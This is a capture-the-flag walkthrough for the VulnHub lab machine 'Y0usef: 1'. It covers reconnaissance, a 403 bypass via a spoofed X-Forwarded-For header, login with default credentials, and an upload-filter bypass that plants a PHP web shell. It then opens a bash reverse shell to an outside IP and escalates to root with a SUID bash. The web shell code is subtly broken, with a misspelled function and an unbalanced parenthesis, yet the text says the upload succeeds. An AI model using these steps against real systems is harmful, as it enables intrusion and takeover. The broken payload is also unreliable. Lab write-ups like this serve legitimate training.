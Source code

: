 

# Y0usef: 1 Walkthrough 

**VulnHub Link:** [Y0usef: 1](https://www.vulnhub.com/entry/y0usef-1,624/)
**Difficulty:** Easy
**Release Date:** 10 Dec 2020


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.172
```

## 2.Web Enumeration
```bash
wfuzz -c -u 'http://192.168.100.172/FUZZ' -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 404
```

we found nothing from webpage and only access to index.php

then we download bypass 403 
```bash
wget https://github.com/ali-ctf-player/vulnhub-ctf-walkthroughs/blob/main/Y0usef%3A%201/bypass-403.sh
chmod +x bypass-403.sh
./bypass-403.sh http://192.168.100.172 adminstration
```

we found out that X-Forwarded-For: 127.0.0.1:80

opening burpsuite

in browser , enter url --> http://192.168.100.172/adminstration send request to repeater

add this to request --> X-Forwarded-For: 127.0.0.1:80

and you will see that username and password required

again send request to repeater --> username=admin&password=admin (again X-Forwarded-For: 127.0.0.1:80)

and you will see that you access admin page

from upload page , we found out we cant upload php file

send request to repeater ---> change content-type to image/gif

content --> 
<?php
    echo '<pre>';
    passtrhu(system($_GET['cmd']);
    echo '</pre>';
?>

and you will successfully upload php file 

in response copy that and new repeater tab , http://192.168.100.172/adminstration/upload/files/<your filename>?cmd=id

we encode bash -c 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'

we write to cmd == bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.0.1%2F8080%200%3E%261%27 

don't forget change ip and port number

and we get www-data shell

we find user.txt and 

```bash
echo "c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=" | base64 -d
```

we found yousef password 

```bash
ssh yousef@192.168.100.172 (password yousef123)
```

we found out that from 
```bash
sudo -l
```

ALL ALL:ALL command on yousef

```bash
chmod u+s /bin/bash
/bin/bash -p
cat /root/root.txt
```

and BOOOM..! We are ROOT and ROOT flag captured.
